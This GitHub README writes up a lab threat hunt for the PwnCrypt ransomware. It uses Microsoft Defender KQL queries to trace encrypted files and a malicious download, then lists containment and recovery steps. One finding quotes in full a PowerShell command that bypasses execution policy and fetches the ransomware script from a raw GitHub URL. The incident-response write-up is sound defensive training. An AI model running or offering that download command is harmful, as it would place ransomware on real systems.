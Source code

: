 # Zero-Day-Ransomware-PwnCrypt-Outbreak

<img width="1536" height="1024" alt="image" src="https://github.com/user-attachments/assets/84b28057-5767-4402-adaa-68f7214615ca" />

## Scenario

A new ransomware strain called PwnCrypt has emerged, using a PowerShell-based payload to encrypt files with AES-256 encryption and adding a .pwncrypt extension to targeted files. The CISO is worried about its potential spread to the corporate network and intends to investigate further.

## Data Collection
Inspect DeviceFileEvents logs in MS Defender for .pwncrpyt string

```kql
let suspectDevice = "windows10vm";
DeviceFileEvents
| where DeviceName == suspectDevice
| where FileName contains "pwncrypt"
| order by Timestamp desc
| summarize by Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
```
<img width="1621" height="663" alt="スクリーンショット 2025-08-05 11 04 54" src="https://github.com/user-attachments/assets/367446b4-c874-470f-8551-f09ae8f0df43" />

Findings
- Files appended with .pwncrypt indicate the ransomeware has spread to our systems
- Initiating process confirms PowerShell-based script at C:\programdata\pwnscript.ps1 using -ExecutionPolicy Bypass

Inspect DeviceNetworkEvents for any "Invoke-WebRequest" 

let suspectDevice = "windows10vm";
DeviceNetworkEvents
| where DeviceName == suspectDevice and InitiatingProcessCommandLine contains "Invoke-WebRequest"
| summarize by Timestamp, DeviceName, RemoteUrl, InitiatingProcessFileName, InitiatingProcessCommandLine

<img width="1651" height="521" alt="image" src="https://github.com/user-attachments/assets/06e49924-f2ec-4816-b298-04dc301d8a20" />

Findings
- Confirmed command line run by "labuser" to callout to github and save file locally. "pwncrypt.ps1 to C:\programdata "powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1"

Data Analysis

Hypothothis
- User "labuser," with admin permissions, ran command line code that downloaded PwnCrypt ransomware to the machine. Pwncrypt encoded files and demanded a bitcoin ransom.
Evidence
- Data finding of DeviceNetworkEvents and DeviceFileEvents above.

Investigation

- Analysis of the pwncrypt.ps1 file indicates code associated with ransom ware.

Remediation

Containment
- Block traffic to/from assoicated URL

Eradication
- Isolate endpoints with pwncrypt.ps1 file and eradicate
- Terminate additional processes (schedule tasks, etc.)
- Scan network for other signs of infection

Recovery
- Restore endpoints from last known good backup
- Verify integridy of restored systems




Remediate
- Block all traffic to malicious URI
- Remove pwncrypt.ps1 and kill related processes
- 

